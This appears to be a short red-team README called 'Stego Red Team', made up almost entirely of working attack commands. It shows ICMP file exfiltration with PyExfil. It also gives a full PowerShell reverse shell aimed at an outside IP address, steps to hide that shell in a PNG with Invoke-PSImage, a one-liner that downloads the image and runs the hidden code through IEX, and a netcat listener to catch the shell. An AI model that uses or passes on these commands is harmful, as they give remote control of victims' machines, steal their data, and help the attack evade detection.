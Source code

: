 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: `python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

* Server: `tcpdump -A icmp -i lo`

## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* `nc -nlvp 444`
